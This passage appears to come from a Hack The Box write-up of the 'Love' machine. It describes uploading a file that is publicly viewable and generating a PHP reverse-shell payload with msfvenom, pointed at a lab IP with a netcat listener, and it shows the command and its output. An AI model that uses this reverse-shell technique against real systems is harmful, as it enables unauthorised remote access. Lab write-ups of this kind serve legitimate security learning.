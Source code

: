 ![](9.png) ![](10.png)

Success! Now to test if it's publicly viewable:

![](11.png)

With that knowledge, I felt pretty comfortable that I could get a reverse shell. I used msfvenom to generate the payload, uploaded it, set up a netcat listener, and got a shell:

```shell
┌──(kali@kali)-[~/htb/love/blog]
└─$ msfvenom -p php/reverse_php LHOST=10.10.14.6 LPORT=4444 -f raw > reverse.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3038 bytes
```
